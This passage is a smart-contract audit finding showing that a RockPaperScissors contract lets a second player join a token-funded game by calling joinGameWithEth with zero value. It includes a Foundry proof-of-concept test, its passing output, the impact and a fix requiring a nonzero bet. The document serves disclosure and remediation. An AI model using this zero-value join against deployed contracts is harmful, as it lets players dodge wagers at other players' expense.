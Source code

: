 This means that another user can call `RockPaperScissors::joinGameWithEth()` with `{value: 0}` and join the game for free.

Add the following code to the test suite:

```solidity
function testPlayerBCanJoinTokenGameForFree() public {
        // playerA creates a game with token.
        vm.startPrank(playerA);
        token.approve(address(game), 1);
        gameId = game.createGameWithToken(TOTAL_TURNS, TIMEOUT);
        vm.stopPrank();

        vm.startPrank(playerB);
        console2.log("playerB token balance before joining: ", token.balanceOf(playerB));
        console2.log("playerB ETH balance before joining: ", playerB.balance);
        // This line confirms playerB joined the game.
        vm.expectEmit();
        emit PlayerJoined(gameId, address(playerB));
        // playerB joins game by calling joinGameWithEth with no value.
        game.joinGameWithEth{value: 0}(gameId);
        // playerB's balance has not changed.
        console2.log("playerB token balance after joining: ", token.balanceOf(playerB));
        console2.log("playerB ETH balance before joining: ", playerB.balance);
    }
```

The output is:

```bash
Ran 1 test for test/RockPaperScissorsTest.t.sol:RockPaperScissorsTest
[PASS] testPlayerBCanJoinTokenGameForFree() (gas: 244672)
Logs:
  playerB token balance before joining:  10
  playerB ETH balance before joining:  10000000000000000000
  playerB token balance after joining:  10
  playerB ETH balance before joining:  10000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 11.40ms (1.86ms CPU time)
```

## Impact

Anyone can join games created with `RockPaperScissors::createGameWithToken` for free and play with zero risk, effectively gaming the protocol.

## Tools Used

Manual review

## Recommendations

Require `game.bet > 0` when calling `RockPaperScissors::joinGameWithEth`.
